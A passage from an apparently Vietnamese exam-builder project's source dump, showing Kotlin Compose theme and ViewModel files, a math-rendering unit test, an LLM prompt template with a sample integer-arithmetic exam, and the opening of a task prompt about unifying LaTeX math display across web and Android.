        scheme = lightColorScheme(
            primary = c(0x9C5A7C), onPrimary = Color.White,
            primaryContainer = c(0xF5E2EC), onPrimaryContainer = c(0x7A4460),
            secondary = c(0x8156A0), onSecondary = Color.White,
            background = c(0xFDF1F2), onBackground = c(0x352730),
            surface = c(0xFFFAFB), onSurface = c(0x352730),
            surfaceVariant = c(0xFBE6E8), onSurfaceVariant = c(0x6F5A64),
            outline = c(0xCAADBB), outlineVariant = c(0xF2DADE), error = c(0xB3261E)
        )
    ),
    AppTheme(
        id = "peach", label = "Đào", dark = false,
        previewBg = c(0xFBE4DC), previewBar = c(0xB45642), previewDot = c(0xEAA07F),
        scheme = lightColorScheme(
            primary = c(0xB45642), onPrimary = Color.White,
            primaryContainer = c(0xFDE3D9), onPrimaryContainer = c(0x8E3F2E),
            secondary = c(0xB45642), onSecondary = Color.White,
            background = c(0xFDF1EE), onBackground = c(0x3B2823),
            surface = c(0xFFFBF9), onSurface = c(0x3B2823),
            surfaceVariant = c(0xFBE7DF), onSurfaceVariant = c(0x7B574E),
            outline = c(0xD3A99E), outlineVariant = c(0xF5DDD4), error = c(0xB3261E)
        )
    ),
    AppTheme(
        id = "rose", label = "Hoa hồng", dark = false,
        previewBg = c(0xFBE1DA), previewBar = c(0xBB4A62), previewDot = c(0xFEBBCC),
        scheme = lightColorScheme(
            primary = c(0xBB4A62), onPrimary = Color.White,
            primaryContainer = c(0xFBDEE4), onPrimaryContainer = c(0x93374B),
            secondary = c(0xBB4A62), onSecondary = Color.White,
            background = c(0xFDEFE4), onBackground = c(0x3A2621),
            surface = c(0xFFFBF6), onSurface = c(0x3A2621),
            surfaceVariant = c(0xFBE7DA), onSurfaceVariant = c(0x7A564D),
            outline = c(0xD6A89C), outlineVariant = c(0xF5DDCB), error = c(0xB3261E)
        )
    ),
    AppTheme(
        id = "honey", label = "Mật ong", dark = false,
        previewBg = c(0xF6E9CF), previewBar = c(0x9E6B30), previewDot = c(0xD8AE7E),
        scheme = lightColorScheme(
            primary = c(0x9E6B30), onPrimary = Color.White,
            primaryContainer = c(0xF8E6C8), onPrimaryContainer = c(0x7C521F),
            secondary = c(0x9E6B30), onSecondary = Color.White,
            background = c(0xFDF4E3), onBackground = c(0x352A19),
            surface = c(0xFFFDF7), onSurface = c(0x352A19),
            surfaceVariant = c(0xF7EBD3), onSurfaceVariant = c(0x6D5C40),
            outline = c(0xB7A079), outlineVariant = c(0xEADDC0), error = c(0xB3261E)
        )
    )
)

fun themeById(id: String): AppTheme = APP_THEMES.firstOrNull { it.id == id } ?: APP_THEMES[0]

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/ui/theme/Theme.kt

```kotlin
package com.exambuilder.android.ui.theme

import androidx.compose.material3.MaterialTheme
import androidx.compose.runtime.Composable

/**
 * Chọn một trong 18 chủ đề (xem [APP_THEMES]) + hệ số cỡ chữ, lấy từ
 * [com.exambuilder.android.data.AppSettingsStore]. Mỗi chủ đề tự nó là sáng
 * hoặc tối; không dùng dynamic color (Material You) nữa.
 */
@Composable
fun ExamBuilderTheme(
    themeId: String = "cold",
    fontScale: Float = 1f,
    content: @Composable () -> Unit
) {
    MaterialTheme(
        colorScheme = themeById(themeId).scheme,
        typography = Typography.scaled(fontScale),
        content = content
    )
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/ui/theme/Type.kt

```kotlin
package com.exambuilder.android.ui.theme

import androidx.compose.material3.Typography
import androidx.compose.ui.text.TextStyle
import androidx.compose.ui.text.font.FontWeight
import androidx.compose.ui.unit.sp
import androidx.compose.ui.unit.times

val Typography = Typography(
    titleLarge = TextStyle(fontWeight = FontWeight.Bold, fontSize = 22.sp),
    titleMedium = TextStyle(fontWeight = FontWeight.SemiBold, fontSize = 18.sp),
    bodyLarge = TextStyle(fontWeight = FontWeight.Normal, fontSize = 16.sp),
    bodyMedium = TextStyle(fontWeight = FontWeight.Normal, fontSize = 14.sp),
    labelMedium = TextStyle(fontWeight = FontWeight.Medium, fontSize = 12.sp)
)

/** Nhân cỡ chữ mọi style theo hệ số (Cài đặt > Giao diện > Cỡ chữ). */
fun Typography.scaled(factor: Float): Typography {
    if (factor == 1f) return this
    fun TextStyle.s() = copy(fontSize = fontSize * factor)
    return copy(
        displayLarge = displayLarge.s(), displayMedium = displayMedium.s(), displaySmall = displaySmall.s(),
        headlineLarge = headlineLarge.s(), headlineMedium = headlineMedium.s(), headlineSmall = headlineSmall.s(),
        titleLarge = titleLarge.s(), titleMedium = titleMedium.s(), titleSmall = titleSmall.s(),
        bodyLarge = bodyLarge.s(), bodyMedium = bodyMedium.s(), bodySmall = bodySmall.s(),
        labelLarge = labelLarge.s(), labelMedium = labelMedium.s(), labelSmall = labelSmall.s()
    )
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/viewmodel/ExamViewModel.kt

```kotlin
package com.exambuilder.android.viewmodel

import androidx.compose.runtime.getValue
import androidx.compose.runtime.mutableStateOf
import androidx.compose.runtime.setValue
import androidx.lifecycle.ViewModel
import com.exambuilder.android.model.BlockType
import com.exambuilder.android.model.DifficultyLevel
import com.exambuilder.android.model.Exam
import com.exambuilder.android.model.Question
import com.exambuilder.android.model.QuestionBlock
import com.exambuilder.android.model.QuestionOption
import com.exambuilder.android.model.QuestionType

/**
 * Single source of truth for the exam currently being built, shared by the
 * builder / preview / export screens via [com.exambuilder.android.ui.navigation.ExamBuilderNavHost].
 * Kept intentionally simple (in-memory, no persistence) - mirrors the web
 * app's `state.blocks` (frontend/script.js) for the current editing session.
 */
class ExamViewModel : ViewModel() {

    var exam by mutableStateOf(Exam(title = "Đề kiểm tra"))
        private set

    /**
     * exam_id trong kho de (exam-library.json) cho de dang soan. null = de moi
     * chua tung luu -> lan luu dau tao ban ghi moi. Xem [com.exambuilder.android.viewmodel.LibraryViewModel].
     */
    var currentExamId by mutableStateOf<String?>(null)

    fun updateMeta(
        title: String = exam.title,
        subject: String = exam.subject,
        durationMinutes: Int? = exam.durationMinutes,
        schoolHeader: String = exam.schoolHeader,
    ) {
        exam = exam.copy(title = title, subject = subject, durationMinutes = durationMinutes, schoolHeader = schoolHeader)
    }

    /** Nap 1 de tu kho de vao trinh soan (thay toan bo state hien tai). */
    fun loadExam(loaded: Exam, archiveId: String?) {
        exam = loaded
        currentExamId = archiveId
    }

    fun addQuestion(blockType: BlockType, question: Question) {
        val blockTitle = if (blockType == BlockType.MULTIPLE_CHOICE) "Phần I. Trắc nghiệm" else "Phần II. Tự luận"
        val existing = exam.blocks.find { it.blockType == blockType }
        val updatedBlocks = if (existing != null) {
            exam.blocks.map { if (it.id == existing.id) it.copy(questions = it.questions + question) else it }
        } else {
            exam.blocks + QuestionBlock(blockType = blockType, blockTitle = blockTitle, questions = listOf(question))
        }
        exam = exam.copy(blocks = updatedBlocks)
    }

    /**
     * Save an edited question. When [original] is null this is a fresh add.
     * If the question's type moved it across the trắc-nghiệm / tự-luận divide
     * the question is relocated to the correct block (appended); otherwise it
     * is replaced in place so its position is preserved.
     */
    fun upsertQuestion(original: Question?, updated: Question) {
        if (original == null) {
            addQuestion(blockFor(updated.questionType), updated)
            return
        }
        val currentBlock = exam.blocks.firstOrNull { b -> b.questions.any { it.id == original.id } }
        val target = blockFor(updated.questionType)
        if (currentBlock != null && currentBlock.blockType == target) {
            exam = exam.copy(
                blocks = exam.blocks.map { b ->
                    if (b.id != currentBlock.id) b
                    else b.copy(questions = b.questions.map { if (it.id == updated.id) updated else it })
                }
            )
        } else {
            removeQuestion(original.id)
            addQuestion(target, updated)
        }
    }

    fun removeQuestion(questionId: String) {
        exam = exam.copy(
            blocks = exam.blocks
                .map { it.copy(questions = it.questions.filterNot { q -> q.id == questionId }) }
                .filter { it.questions.isNotEmpty() }
        )
    }

    /** Reorder a question within its block (no-op at the ends). */
    fun moveQuestion(questionId: String, up: Boolean) {
        exam = exam.copy(
            blocks = exam.blocks.map { b ->
                val idx = b.questions.indexOfFirst { it.id == questionId }
                if (idx < 0) return@map b
                val target = if (up) idx - 1 else idx + 1
                if (target !in b.questions.indices) return@map b
                val list = b.questions.toMutableList()
                list.add(target, list.removeAt(idx))
                b.copy(questions = list)
            }
        )
    }

    fun allQuestions(): List<Question> = exam.blocks.flatMap { it.questions }

    fun questionCount(): Int = allQuestions().size

    companion object {
        private fun blockFor(type: QuestionType): BlockType =
            if (type == QuestionType.ESSAY) BlockType.ESSAY else BlockType.MULTIPLE_CHOICE

        /** A ready-to-edit blank question of the given type. */
        fun blank(type: QuestionType): Question = when (type) {
            QuestionType.MCQ -> Question(
                questionType = QuestionType.MCQ,
                content = "",
                difficultyLevel = DifficultyLevel.NB,
                correctAnswer = "A",
                options = listOf("A", "B", "C", "D").mapIndexed { i, key ->
                    QuestionOption(optionKey = key, optionText = "", isCorrect = i == 0)
                }
            )
            QuestionType.TRUE_FALSE -> Question(
                questionType = QuestionType.TRUE_FALSE,
                content = "",
                difficultyLevel = DifficultyLevel.NB,
                correctAnswer = "Dung"
            )
            QuestionType.FILL_BLANK -> Question(
                questionType = QuestionType.FILL_BLANK,
                content = "",
                difficultyLevel = DifficultyLevel.TH,
                correctAnswer = ""
            )
            QuestionType.ESSAY -> Question(
                questionType = QuestionType.ESSAY,
                content = "",
                difficultyLevel = DifficultyLevel.VD,
                draftLinesCount = 5
            )
        }
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/viewmodel/LibraryViewModel.kt

```kotlin
package com.exambuilder.android.viewmodel

import android.app.Application
import androidx.lifecycle.AndroidViewModel
import androidx.lifecycle.viewModelScope
import com.exambuilder.android.data.AppSettingsStore
import com.exambuilder.android.data.ExamArchiveRepository
import com.exambuilder.android.data.SyncSettings
import com.exambuilder.android.data.SyncSettingsStore
import com.exambuilder.android.data.dto.SavedExamDto
import com.exambuilder.android.data.dto.toExam
import com.exambuilder.android.model.Exam
import com.exambuilder.android.sync.SyncManager
import com.exambuilder.android.sync.SyncResult
import kotlinx.coroutines.flow.MutableStateFlow
import kotlinx.coroutines.flow.SharingStarted
import kotlinx.coroutines.flow.StateFlow
import kotlinx.coroutines.flow.asStateFlow
import kotlinx.coroutines.flow.map
import kotlinx.coroutines.flow.stateIn
import kotlinx.coroutines.launch

/**
 * State cho man hinh "Kho de": danh sach de da luu (tu dong luu moi de),
 * cau hinh dong bo Gist, va 2 thao tac Push / Pull.
 */
class LibraryViewModel(app: Application) : AndroidViewModel(app) {

    private val repo = ExamArchiveRepository(app)
    private val settingsStore = SyncSettingsStore(app)
    private val syncManager = SyncManager(repo, settingsStore, AppSettingsStore(app))

    val archive: StateFlow<List<SavedExamDto>> = repo.entries
        .map { list -> list.filter { !it.isDeleted }.sortedByDescending { it.updatedAt ?: "" } }
        .stateIn(viewModelScope, SharingStarted.WhileSubscribed(5_000), emptyList())

    val settings: StateFlow<SyncSettings> = settingsStore.settings
        .stateIn(viewModelScope, SharingStarted.WhileSubscribed(5_000), SyncSettings())

    private val _syncStatus = MutableStateFlow<String?>(null)
    val syncStatus: StateFlow<String?> = _syncStatus.asStateFlow()

    private val _syncing = MutableStateFlow(false)
    val syncing: StateFlow<Boolean> = _syncing.asStateFlow()

    init {
        viewModelScope.launch { repo.load() }
    }

    fun get(id: String): Exam? = repo.get(id)?.toExam()

    /** Tu dong luu de dang soan. Tra ve exam_id (moi hoac cu) qua [onSaved]. */
    fun autoSave(exam: Exam, currentId: String?, onSaved: (String) -> Unit) {
        if (exam.blocks.isEmpty()) return
        viewModelScope.launch {
            val id = repo.upsert(exam, currentId)
            if (id != currentId) onSaved(id)
        }
    }

    fun delete(id: String, clearedCurrentId: () -> Unit) {
        viewModelScope.launch {
            repo.softDelete(id)
            clearedCurrentId()
        }
    }

    fun saveToken(token: String) {
        if (token.isNotBlank()) viewModelScope.launch {
            settingsStore.setToken(token)
            _syncStatus.value = "✅ Đã lưu Token."
        }
    }

    fun saveGistId(gistId: String) = viewModelScope.launch {
        settingsStore.setGistId(gistId)
        _syncStatus.value = if (gistId.isBlank()) "Đã xoá Gist ID." else "✅ Đã lưu Gist ID. Bấm \"Kéo về\" để đồng bộ."
    }

    fun push() = launchSync("⏳ Đang đẩy lên Gist...") { syncManager.push() }
    fun pull() = launchSync("⏳ Đang kéo về từ Gist...") { syncManager.pull() }

    /** "Tạo Gist ID mới": xoá Gist ID hiện tại rồi Push -> SyncManager tự tạo Gist mới. */
    fun createNewGist() = launchSync("⏳ Đang tạo Gist mới và đẩy kho đề lên...") {
        settingsStore.setGistId("")
        syncManager.push()
    }

    private fun launchSync(pending: String, op: suspend () -> SyncResult) {
        if (_syncing.value) return
        _syncing.value = true
        _syncStatus.value = pending
        viewModelScope.launch {
            _syncStatus.value = when (val result = op()) {
                is SyncResult.Ok -> {
                    val tail = if (result.tombstones > 0) ", ${result.tombstones} đã xóa" else ""
                    val verb = if (result.direction == "push") "Đã đẩy lên" else "Đã kéo về"
                    "✅ $verb: ${result.active} đề đang lưu$tail."
                }
                is SyncResult.Error -> "❌ ${result.message}"
            }
            _syncing.value = false
        }
    }
}

```

### FILE: Exam builder for adr/app/src/test/java/com/exambuilder/android/math/MathPromoteTest.kt

```kotlin
package com.exambuilder.android.math

import kotlinx.serialization.json.Json
import kotlinx.serialization.json.jsonArray
import kotlinx.serialization.json.jsonObject
import kotlinx.serialization.json.jsonPrimitive
import org.junit.Assert.assertEquals
import org.junit.Test
import java.io.File

/**
 * Kiem tra ban port Kotlin [MathPromote.promote] khop TUNG vector voi ban
 * web (backend/parser/mathToLatex.js). Bang vector chung:
 * `tests/parser/mathPromoteVectors.json` - NGUON DUY NHAT, doc thang tu do
 * (khong chep tay) de khong bao gio lech.
 *
 * GHI CHU MOI TRUONG: theo project note, JVM unit test cua module Android
 * KHONG chay duoc cuc bo (duong dan co dau cach + dau tieng Viet). File nay
 * "da viet, chua chay local" - build APK release thanh cong la tieu chi thay the.
 */
class MathPromoteTest {

    private data class Vec(val id: String, val input: String, val expected: String)

    private fun loadVectors(): List<Vec> {
        val candidates = listOf(
            "../../tests/parser/mathPromoteVectors.json",   // wd = <repo>/Exam builder for adr/app
            "../tests/parser/mathPromoteVectors.json",       // wd = <repo>/Exam builder for adr
            "tests/parser/mathPromoteVectors.json",          // wd = <repo>
            "../../../tests/parser/mathPromoteVectors.json"
        )
        val file: File = candidates.map { File(it) }.firstOrNull { it.exists() }
            ?: error("mathPromoteVectors.json khong tim thay tu ${File(".").absolutePath}")
        return Json.parseToJsonElement(file.readText()).jsonArray.map {
            val o = it.jsonObject
            Vec(o["id"]!!.jsonPrimitive.content, o["input"]!!.jsonPrimitive.content, o["expected"]!!.jsonPrimitive.content)
        }
    }

    @Test
    fun `promote khop bang vector chung voi ban web`() {
        val vectors = loadVectors()
        assert(vectors.size >= 20) { "Bang vector phai co >= 20 ca, hien ${vectors.size}" }
        for (v in vectors) {
            val once = MathPromote.promote(v.input)
            assertEquals("[${v.id}] output", v.expected, once)
            assertEquals("[${v.id}] idempotent", once, MathPromote.promote(once))
        }
    }

    @Test
    fun `promote an toan voi null va rong`() {
        assertEquals("", MathPromote.promote(null))
        assertEquals("", MathPromote.promote(""))
    }
}

```

### FILE: Gemini_Prompt_Unified.txt

````text
GEMINI PROMPT TEMPLATE — ExamBuilder (meta-prompt hợp nhất)
==========================================================
Một prompt DUY NHẤT, đầy đủ, để dán vào Gemini / ChatGPT / Claude và nhận về nội dung đề
đúng định dạng phần mềm ExamBuilder đọc tự động.
Gồm 3 phần: (1) Hướng dẫn dùng, (2) PROMPT để copy, (3) Ví dụ kết quả mẫu.

==========================================================
PHẦN 1 — HƯỚNG DẪN SỬ DỤNG
==========================================================
1. Copy toàn bộ đoạn PROMPT ở Phần 2 bên dưới (từ "Bạn là chuyên gia khảo thí..." đến hết khung mẫu).
2. Thay [NHẬP MÔN HỌC/CHỦ ĐỀ Ở ĐÂY] bằng môn học / chủ đề bạn muốn ra đề.
   (Tùy chọn) thêm vào cuối: nội dung sách/bài giảng để AI bám vào, và/hoặc yêu cầu số lượng câu.
3. Dán vào Gemini Pro (hoặc ChatGPT / Claude) và chạy.
4. Copy TOÀN BỘ nội dung AI trả về → dán vào tab "Dán văn bản" trong ExamBuilder → bấm "Sinh Đề Kiểm Tra".
   (Muốn thử ngay không cần gọi AI? Copy nguyên PHẦN 3 — VÍ DỤ KẾT QUẢ MẪU — và dán thẳng vào đó.)

Tóm tắt định dạng mà phần mềm hiểu:
  - Đề gồm 2 phần, mỗi phần có 1 dòng header:  =PHAN_1_TRAC_NGHIEM=  và  =PHAN_2_TU_LUAN=
  - Mỗi câu bắt đầu bằng dòng  [CAU_HOI]
  - Mỗi câu có các trường "Tên_Trường: giá trị" — mỗi trường 1 dòng.
  - 4 loại câu (trường Loai):
        TN        = trắc nghiệm 4 lựa chọn A/B/C/D
        DUNG_SAI  = nhận định Đúng / Sai
        DIEN_TU   = điền vào chỗ trống (đánh dấu chỗ trống bằng ___)
        TU_LUAN   = tự luận (chỉ đặt trong PHAN_2)
  - 4 mức độ (trường Muc_Do): Nhan_Biet, Thong_Hieu, Van_Dung, Van_Dung_Cao
  - AI chỉ được xuất ra nội dung đề — KHÔNG lời chào, KHÔNG markdown, KHÔNG bọc trong ```.

==========================================================
PHẦN 2 — PROMPT (copy từ dòng dưới đây đến hết PHẦN 2)
==========================================================

Bạn là chuyên gia khảo thí và biên soạn đề kiểm tra. Hãy soạn nội dung đề kiểm tra về chủ đề [NHẬP MÔN HỌC/CHỦ ĐỀ Ở ĐÂY].

Kết quả của bạn sẽ được một PHẦN MỀM ĐỌC TỰ ĐỘNG, không phải con người đọc. Vì vậy phải tuân thủ TUYỆT ĐỐI định dạng bên dưới. Chỉ cần sai một chi tiết là phần mềm sẽ báo lỗi hoặc hiểu sai nội dung.

━━━━━━━━━━━━━━ QUY TẮC XUẤT KẾT QUẢ (bắt buộc) ━━━━━━━━━━━━━━
1. CHỈ xuất ra nội dung đề theo đúng định dạng dưới đây. TUYỆT ĐỐI KHÔNG viết lời chào, lời dẫn ("Dưới đây là đề..."), ghi chú, lời kết. KHÔNG đặt kết quả trong khối mã / code block. KHÔNG dùng ký hiệu markdown (dấu sao, dấu thăng, gạch đầu dòng, bảng...).
2. Đề gồm ĐÚNG 2 phần. Mỗi phần mở đầu bằng một dòng header viết y hệt, chữ IN HOA không dấu, có dấu "=" ở hai đầu, NẰM MỘT MÌNH TRÊN DÒNG và có một dòng trống ngay phía trước:
      =PHAN_1_TRAC_NGHIEM=   → chứa mọi câu loại TN, DUNG_SAI, DIEN_TU
      =PHAN_2_TU_LUAN=       → chỉ chứa câu loại TU_LUAN
3. Mỗi câu hỏi bắt đầu bằng đúng dòng:  [CAU_HOI]  — nằm một mình trên dòng, có một dòng trống ngay phía trước. TUYỆT ĐỐI không nối "[CAU_HOI]" hay dòng header vào cuối dòng "Loi_Giai:" của câu trước.
4. Mỗi câu chỉ được có DUY NHẤT một dòng "Dap_An:" và DUY NHẤT một dòng "Loi_Giai:". Hãy suy nghĩ và tự kiểm tra thật kỹ TRƯỚC khi viết, rồi chỉ ghi ra đáp án CUỐI CÙNG mà bạn chắc chắn đúng. Không được ghi "Dap_An:" hoặc "Loi_Giai:" lần thứ hai để tự sửa lại trong cùng một câu.
5. Mỗi trường viết trên MỘT dòng, đúng dạng "Tên_Trường: giá trị". Tên trường viết y hệt (Loai, Muc_Do, De_Bai, Dap_An, Loi_Giai, So_Dong_Nhap) — không dịch, không đổi, không thêm khoảng trắng trong tên. Nội dung "De_Bai:" viết gọn trên một dòng, KHÔNG xuống dòng giữa chừng và KHÔNG bắt đầu bất kỳ dòng nào bằng "A." … "D." hay bằng tên một trường.

━━━━━━━━━━━━━━ TỪ VỰNG BẮT BUỘC ━━━━━━━━━━━━━━
Trường Loai — viết đúng MỘT trong 4 giá trị:  TN  |  DUNG_SAI  |  DIEN_TU  |  TU_LUAN
Trường Muc_Do — viết đúng MỘT trong 4 giá trị:  Nhan_Biet  |  Thong_Hieu  |  Van_Dung  |  Van_Dung_Cao

━━━━━━━━━━━━━━ ĐỊNH DẠNG CHI TIẾT TỪNG LOẠI CÂU ━━━━━━━━━━━━━━

• TN — trắc nghiệm 4 lựa chọn:
  [CAU_HOI]
  Loai: TN
  Muc_Do: <mức độ>
  De_Bai: <nội dung câu hỏi, một dòng>
  A. <nội dung lựa chọn A>
  B. <nội dung lựa chọn B>
  C. <nội dung lựa chọn C>
  D. <nội dung lựa chọn D>
  Dap_An: <MỘT chữ cái: A hoặc B hoặc C hoặc D — phải trùng đúng một lựa chọn ở trên>
  Loi_Giai: <giải thích vì sao đáp án đó đúng>
  → Bắt buộc đủ 4 lựa chọn, mỗi lựa chọn một dòng riêng, bắt đầu bằng "A. ", "B. ", "C. ", "D. ".

• DUNG_SAI — một nhận định, học sinh xét đúng/sai:
  [CAU_HOI]
  Loai: DUNG_SAI
  Muc_Do: <mức độ>
  De_Bai: <một mệnh đề/nhận định trọn vẹn>
  Dap_An: <đúng một từ:  Dung  hoặc  Sai  — không dấu, viết hoa chữ cái đầu>
  Loi_Giai: <giải thích>

• DIEN_TU — điền vào chỗ trống:
  [CAU_HOI]
  Loai: DIEN_TU
  Muc_Do: <mức độ>
  De_Bai: <câu có chỗ trống, đánh dấu chỗ trống bằng ba dấu gạch dưới:  ___ >
  Dap_An: <từ / cụm từ / số cần điền vào chỗ trống>
  Loi_Giai: <giải thích>

• TU_LUAN — tự luận (CHỈ đặt trong =PHAN_2_TU_LUAN=):
  [CAU_HOI]
  Loai: TU_LUAN
  Muc_Do: <mức độ>
  De_Bai: <đề bài yêu cầu học sinh trình bày lời giải>
  So_Dong_Nhap: <số nguyên dương — số dòng kẻ trống chừa cho học sinh làm bài, ví dụ 5 đến 12>
  Loi_Giai: <hướng dẫn chấm / đáp án / các bước giải chi tiết>

━━━━━━━━━━━━━━ CÁCH VIẾT CÔNG THỨC TOÁN ━━━━━━━━━━━━━━
- BẮT BUỘC bọc trong $...$ và viết bằng LaTeX chuẩn cho MỌI công thức có cấu trúc 2 chiều (bên trên/bên dưới một gạch ngang):
    • Căn mọi loại: $\sqrt{80}$ , $\sqrt{b^2 - 4ac}$ , căn bậc n $\sqrt[3]{x+1}$
    • Phân số mọi loại: $\dfrac{2}{3}$ , $\dfrac{-b \pm \sqrt{b^2 - 4ac}}{2a}$
    • Lũy thừa có cơ số hoặc số mũ là biểu thức: $x^{n+1}$ , $(a+b)^2$ , $(-2)^{3}$ , $2^{10}$
    • Tích phân / tổng / giới hạn có cận: $\int_{0}^{1} x^2\,dx$ , $\sum_{k=1}^{n} k$ , $\lim_{x \to 0} f(x)$
    • Hệ phương trình, ma trận: $\begin{cases} x + y = 1 \\ x - y = 3 \end{cases}$
- CHỈ được gõ ASCII trần (KHÔNG có $...$) cho ký hiệu thật sự MỘT HÀNG: số mũ chỉ một chữ số như x^2 ; dấu nhân a*b ; so sánh <= >= != ; tương đương <=> ; suy ra => ; đơn vị cm2 cm3 ; số thập phân ; dấu cộng trừ viết +- .
- Không trộn nửa ASCII nửa LaTeX trong cùng một biểu thức. Một biểu thức: hoặc toàn ASCII, hoặc toàn LaTeX trong $...$.
- Nếu một biểu thức có căn hoặc phân số thì CẢ biểu thức đó phải nằm gọn trong MỘT cặp $...$ (kể cả phần số/biến đứng ngoài căn): viết $2\sqrt{3} + 1$ chứ KHÔNG viết 2$\sqrt{3}$+1 ; viết $\dfrac{\sqrt{80}}{5}$ chứ KHÔNG viết $\sqrt{80}$/5 .

━━━━━━━━━━━━━━ SỐ LƯỢNG CÂU HỎI ━━━━━━━━━━━━━━
Nếu ở phần bổ sung phía dưới KHÔNG ghi yêu cầu số lượng cụ thể: hãy tạo khoảng 6 câu cho PHAN_1 (đủ cả TN, DUNG_SAI, DIEN_TU) và 2–3 câu TU_LUAN cho PHAN_2, phân bố trải đều 4 mức độ từ Nhan_Biet đến Van_Dung_Cao.
Nếu CÓ ghi yêu cầu số lượng: tuân thủ đúng số lượng và đúng loại × mức độ được yêu cầu.

━━━━━━━━━━━━━━ KHUNG MẪU — giữ nguyên cấu trúc, thay <...> bằng nội dung thật ━━━━━━━━━━━━━━

=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: <nội dung câu trắc nghiệm>
A. <lựa chọn A>
B. <lựa chọn B>
C. <lựa chọn C>
D. <lựa chọn D>
Dap_An: A
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: <một nhận định>
Dap_An: Dung
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: <câu hỏi có ___ ở chỗ trống>
Dap_An: <đáp án cần điền>
Loi_Giai: <giải thích>

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: <đề bài tự luận>
So_Dong_Nhap: 8
Loi_Giai: <hướng dẫn chấm và các bước giải chi tiết>

==========================================================
(kết thúc PROMPT)
==========================================================

==========================================================
PHẦN 3 — VÍ DỤ KẾT QUẢ MẪU (chủ đề: Toán 6 - Số nguyên)
==========================================================
Có thể copy toàn bộ phần dưới đây, dán thẳng vào tab "Dán văn bản" trong ExamBuilder
rồi bấm "Sinh Đề Kiểm Tra" để xem kết quả ngay (không cần gọi AI).

=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Kết quả của phép tính (-5) + 3 là bao nhiêu?
A. -2
B. 2
C. -8
D. 8
Dap_An: A
Loi_Giai: (-5) + 3 = -(5 - 3) = -2, vì |-5| > |3| nên kết quả mang dấu âm.

[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Giá trị của biểu thức $(-2)^{3} + \sqrt{16}$ bằng bao nhiêu?
A. -4
B. 4
C. -12
D. 12
Dap_An: A
Loi_Giai: $(-2)^{3} = -8$ và $\sqrt{16} = 4$, nên -8 + 4 = -4.

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Tích của hai số nguyên âm luôn là một số nguyên dương.
Dap_An: Dung
Loi_Giai: Theo quy tắc dấu: (-) x (-) = (+), nên tích của hai số nguyên âm luôn là số dương.

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Điền số thích hợp vào chỗ trống: |-12| + |-8| = ___
Dap_An: 20
Loi_Giai: |-12| = 12, |-8| = 8, suy ra 12 + 8 = 20.

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Một chiếc tàu ngầm đang ở độ sâu 45m so với mực nước biển. Tàu di chuyển lên 20m rồi tiếp tục lặn xuống 30m. Hỏi tàu ngầm đang ở độ sâu bao nhiêu mét so với mực nước biển? Trình bày lời giải bằng phép tính với số nguyên.
So_Dong_Nhap: 6
Loi_Giai: Độ sâu ban đầu: -45m. Sau khi lên 20m: -45 + 20 = -25m. Sau khi lặn xuống 30m: -25 - 30 = -55m. Vậy tàu ngầm đang ở độ sâu 55m so với mực nước biển.

````

### FILE: PROMPT_HOP_NHAT_CONG_THUC_TOAN.txt

````text
# PROMPT: Hợp nhất cách hiển thị công thức toán (web + APK) về một dạng chuẩn LaTeX

> Dán toàn bộ file này cho Claude Pro (một phiên mới, không có ngữ cảnh trước).
> Ngôn ngữ làm việc: tiếng Việt. Repo: `exam-builder` (web Node/Express + frontend thuần, và
> app Android Compose ở thư mục `Exam builder for adr/`).

---

## 0. MỤC TIÊU MỘT CÂU

Mọi công thức toán 2 chiều (căn, phân số, căn bậc n, luỹ thừa chồng, hệ phương trình, tích phân
có cận…) — bất kể do AI sinh, giáo viên gõ tay, sửa tay ở màn Xem trước, bóc từ file Word/PDF, hay
đã lưu sẵn trong đề cũ — phải được quy về **một dạng chuẩn duy nhất là LaTeX trong `$...$`**, rồi
giao cho **KaTeX (web) / JLaTeXMath (APK)** vẽ. Không renderer "căn giả bằng CSS", không "glyph
Unicode √". Web và APK phải hội tụ về **một cách vẽ**.

Làm trọn **cả 3 hướng** dưới đây và **sửa cả bản APK**.

---

## 1. BỐI CẢNH & NGUYÊN NHÂN LỖI (đọc kỹ trước khi sửa)

### 1.1 Triệu chứng
Câu hỏi có `\sqrt{80}`, `\sqrt{5}` (hoặc `sqrt(80)`) nằm **ngoài** `$...$`. Trên web hiện ra căn
"chắp vá" (móc căn = `border-left` nghiêng, gạch ngang rời rạc, `/5` lọt ra ngoài căn). Trên APK
hiện glyph Unicode `√` trơ, không có gạch ngang kéo dài. KaTeX/JLaTeXMath **không hề được gọi** cho
những chỗ này.

### 1.2 Bốn "cửa vào" của nội dung toán
| Cửa vào | Ai tạo | Ép được về `$...$` LaTeX tại nguồn? |
|---|---|---|
| Tab "Tự động" (LLM) | AI | Được — sửa `Gemini_Prompt_Unified.txt` |
| Tab "Nhập tay" (form) | Giáo viên gõ | Không — giáo viên gõ `sqrt(16)`, `3/4`, `x^2` |
| Sửa trực tiếp ở Xem trước (contentEditable) | Giáo viên gõ | Không |
| Tải file Word/PDF (`FileUploadParser`) | Nội dung file | Không |
| (+ đề cũ đã lưu trong DB / đồng bộ qua Gist) | — | Không — đã nằm đó |

→ Ép AI chỉ bịt **một** cửa. Ba cửa còn lại vẫn đẻ ra math trần → **bắt buộc** phải có "bộ chuẩn
hoá ký hiệu → LaTeX" chạy ở mọi cửa.

### 1.3 Vì sao trước đây mất cấu trúc
`formatMathSymbols()` (cũ) có bảng regex "làm phẳng": `\sqrt{80}` → `√80`, `\frac{a}{b}` → `a/b`,
